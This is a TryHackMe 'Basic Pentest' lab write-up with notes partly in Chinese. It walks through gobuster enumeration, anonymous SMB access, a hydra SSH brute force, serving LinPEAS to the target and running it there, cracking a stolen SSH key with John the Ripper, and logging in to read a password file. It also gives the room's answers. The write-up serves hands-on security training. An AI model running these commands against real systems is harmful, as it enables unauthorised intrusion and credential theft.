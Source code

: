 # Basic Penetration Testing

###### tags: `Tryhackme` `Hacking`
---

**1. Find the services exposed by the machine**
![](https://i.imgur.com/JXflykk.png)

**2. What is the name of the hidden directory on the web server(enter name without /)?**
    ~ development
    * Command: sudo gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://10.10.103.132 -t 20 -o gobusterscan.txt
![](https://i.imgur.com/sEPVnZ5.png)

![](https://i.imgur.com/D0kRrNd.png)

![](https://i.imgur.com/7WoSuEr.png)


**3. User brute-forcing to find the username & password**
    ~ No answer needed.
    
**4. What is the username?**
    ~ Jan
    * SMB servers has an option which allows anonymous users to login. Lets see if this setting is enabled and we can access the Share.
    * Command: 
        smbclient //10.10.103.132/anonymous
        get staff.txt
![](https://i.imgur.com/iu6xpS3.png)

![](https://i.imgur.com/NW76E2M.png)

**5. What is the password?**
    ~ armando
    * Command: hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.103.132 -t 16 ssh
![](https://i.imgur.com/B5vYs39.png)

**6. What service do you use to access the server(answer in abbreviation in all caps)?**
    ~ ssh

**7. Enumerate the machine to find any vectors for privilege escalation**
    ~ No answer needed
    * 先找到可以讓jan寫檔案的目錄(擇一) (Target機)
    find / -type d -maxdepth 2 -writable -exec ls -l {} +
![](https://i.imgur.com/STiwyGH.png)

    * 去Github下載LinPEAS - Linux Privilege Escalation Awesome Script (Kali)
    * Command: curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh --output linpeas.sh
[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

    * 在下載的位置建立web server，然後從target機下載linpeas.sh
    * Command in Kali: python3 -m http.server 8888
    * Command in Target: wget 10.6.9.32:8888/linpeas.sh
    * Command in Target: chmod 755 linpeas.sh && ./linpeas.sh
    * 可以看到在下圖有一個pass.bak檔案還有id_rsa key
![](https://i.imgur.com/JWmSQiD.png)


**8. What is the name of the other user you found(all lower case)?**
    ~ kay
    * Command: cd /home && ls -l
    
![](https://i.imgur.com/wuBEnnD.png)

**9. If you have found another user, what can you do with this information?**
    ~ No answer needed

**10. What is the final password you obtain?**
    ~ heresareallystrongpasswordthatfollowsthepasswordpolicy$$
    * 我們有了kay的rsa key我們可以複製內容，然後在kali建立檔案並貼上
    * Command in Kali: touch kaysshkey
![](https://i.imgur.com/E4UdN3S.png)

    * 利用John The Ripper解hash
    * Command: ssh2john kaysshkey > johnjaysshkey
    * Command: john --wordlist=/usr/share/wordlists/rockyou.txt johnjaysshkey
    * 如果忘記截圖可以用john --show johnkaysshkey
![](https://i.imgur.com/UGPmOVO.png)

    * 然後有這個以後我們就可以登入了
    * Command: ssh kay@10.10.103.132 -i kaysshkey
![](https://i.imgur.com/5ln9Ehb.png)

    * 打開之前查到的pass.bak
    * Command: cat pass.bak
![](https://i.imgur.com/4lWrul3.png)
